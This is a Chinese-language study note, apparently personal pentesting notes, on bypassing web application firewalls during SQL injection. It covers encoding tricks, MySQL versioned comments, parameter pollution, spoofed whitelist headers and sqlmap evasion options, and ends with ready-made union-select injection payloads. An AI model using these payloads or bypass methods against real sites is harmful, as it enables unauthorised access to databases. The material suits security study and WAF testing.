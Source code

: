        5. 编码解密：
          1. URL:%0A换行  %00截断   %20空格  %21!   %22"    %23#   %24$   %25%   %26&   %27‘   %2829()  
          2. hex,unicode,base64等
       6. 特殊符号混用：

    2. 方式
       1. 更改提交方式：GET  POST  COOKIE等
       2. 变异：POST->multipart/form-data
       
    3. 其他：
       1. Fuzz:暴力测试，通过脚本不断测试哪种编码可以过WAF

       2. 借助数据库特性：

          1. mysql版本号绕过：/*!50001 select * from test */; 50001表示数据库在5.00.01以上版本语句才会执行

       3. 垃圾数据溢出：

       4. HTTP参数污染：?id=1&id=2&id=3<img src="C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210425140833633.png" alt="image-20210425140833633" style="zoom:50%;" />

       5. 白名单：

          1. IP白名单  --random-agent：从网络层获取ip

             ```html
             X-forwarded-for
             X-remote-IP
             X-originating-IP
             X-remote-addr
             X-Real-ip
             ```

          2. 静态资源：特定静态资源后缀请求，常见静态文件(.js .jpg .swf .css等)不会检测这类文件请求 http:192.168.1.1/sql.php/1.js?id=1

          3. 爬虫白名单：部分WAF有提供爬虫白名单功能，伪造 搜索引擎http指纹头

          4. 代理池：爬虫挂代理

          5. 延迟   --delay

          6. 写py脚本中转：sqlmap去注入本地脚本地址->本地搭脚本(请求数据包自定义表写)->远程地址（直接百度搜  php提交http数据包方法）![image-20210425221638852](C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210425221638852.png)

          7. 抓包分析错误

    4. 示例：

          ```URL
          注释符，编解码，特殊符号
          id=1 union/*%00*/%23a%0A/*!/*!select 1,2,3*/;%23
          id=-1 union/*%00*/%23a%0A/*!/*!select%201,database%23x%0A(),3*/;%23*
          数据库特性：
          id=-1%20union%20/*!44509select*/%201,2,3%23
          id=-1%20union%20/*!44509select*/%201,%23x%0A/*!database*/(),3%23
          
          参数污染：
          id=1/**&id=-1%20union%20select%201,2,3%23*/ 
          执行代码：SELECT * FROM user WHERE id=-1 union select 1,2,3#*/
          